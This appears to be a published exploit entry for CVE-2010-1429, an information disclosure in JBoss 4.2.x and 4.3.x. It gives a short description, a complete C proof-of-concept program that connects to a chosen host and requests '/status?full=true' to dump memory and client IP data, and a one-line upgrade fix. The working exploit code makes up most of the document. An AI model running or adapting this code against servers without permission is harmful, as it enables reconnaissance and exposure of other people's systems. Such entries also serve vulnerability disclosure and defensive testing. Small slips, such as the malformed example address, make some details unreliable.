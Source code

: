 #JBoss sensitive information disclosure 4.2X & 4.3.X CVE-2010-1429
# Date: 02/08/2018
# Exploit Author: JameelNabbo
# Vendor Homepage: http://www.jboss.org
# Software Link: http://jbossas.jboss.org/downloads
# Version: 4.2X. & 4.3.X
# Tested on: Linux Ubuntu
# CVE : CVE-2010-1429

1. Description
   
By requesting the Status param and setting its value to true, Jobss will print a sensitive information such as Memory used/Total Memory / Client IP address.
Example:   http://127.0.01/status?full=true
 
   
2. Proof of Concept
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <netinet/tcp.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <netdb.h>


int socket_connect(char *host, in_port_t port){
    struct hostent *hp;
    struct sockaddr_in addr;
    int on = 1, sock;
    
    if((hp = gethostbyname(host)) == NULL){
        herror("gethostbyname");
        exit(1);
    }
    bcopy(hp->h_addr, &addr.sin_addr, hp->h_length);
    addr.sin_port = htons(port);
    addr.sin_family = AF_INET;
    sock = socket(PF_INET, SOCK_STREAM, IPPROTO_TCP);
    setsockopt(sock, IPPROTO_TCP, TCP_NODELAY, (const char *)&on, sizeof(int));
    
    if(sock == -1){
        perror("setsockopt");
        exit(1);
    }
    
    if(connect(sock, (struct sockaddr *)&addr, sizeof(struct sockaddr_in)) == -1){
        perror("connect");
        exit(1);
        
    }
    return sock;
}

#define BUFFER_SIZE 1024

int main(int argc, char *argv[]){
    int fd;
    char buffer[BUFFER_SIZE];
    
    if(argc < 3){
        fprintf(stderr, "Usage: %s <hostname> <port>\n", argv[0]);
        exit(1);
    }
    
    fd = socket_connect(argv[1], atoi(argv[2]));
    write(fd, "GET /status?full=true\r\n", strlen("GET /status?full=true\r\n")); // write(fd, char[]*, len);
    while(read(fd, buffer, BUFFER_SIZE - 1) != 0){
         fprintf(stderr, "%s", buffer);
    }

    shutdown(fd, SHUT_RDWR);
    close(fd);
    return 0;
}

3. Solution :
Update to version 4.2.3 or later

